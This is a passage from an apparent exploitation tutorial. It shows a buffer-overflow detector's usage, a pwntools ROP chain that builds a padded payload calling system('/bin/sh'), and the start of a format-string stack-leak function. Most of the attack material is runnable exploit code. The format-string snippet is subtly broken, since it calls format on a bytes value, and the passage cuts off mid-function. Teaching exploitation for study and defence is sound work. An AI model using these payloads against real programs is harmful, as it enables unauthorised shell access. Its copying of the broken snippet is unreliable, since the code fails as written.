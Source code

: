 ```python
'''
        
        return template

# Usage example:
# detector = BufferOverflowDetector("./vulnerable_binary")
# crash_length = detector.fuzz_inputs()
# if crash_length:
#     crash_info = detector.analyze_crash(crash_length)
#     exploit_code = detector.generate_exploit_template(crash_info['offset'])
#     print(exploit_code)
```

*[Screenshot placeholder: Tool output showing detected vulnerabilities and generated exploit]*

---

## Advanced Topics (Brief Overview)

### Return Oriented Programming (ROP)

When direct code injection isn't possible due to protections like NX bit:

```python
# File: rop_example.py
#!/usr/bin/env python3

"""
Basic ROP Chain Example
"""

from pwn import *

# Load binary and find gadgets
elf = ELF('./binary')
rop = ROP(elf)

# Build ROP chain to call system('/bin/sh')
binsh = next(elf.search(b'/bin/sh'))  # Find '/bin/sh' string
rop.call('system', [binsh])

# Create payload
offset = 40
payload = b'A' * offset + rop.chain()
```

### Format String Exploitation

Advanced technique for information leaks and arbitrary writes:

```python
# File: format_string_advanced.py
#!/usr/bin/env python3

"""
Format String Exploitation Example
"""

from pwn import *

def leak_stack(p, positions):
    """Leak stack values at specific positions"""
    payload = b'AAAA' + b'%{}$p,' * len(positions)
    payload = payload.format(*positions)
    
```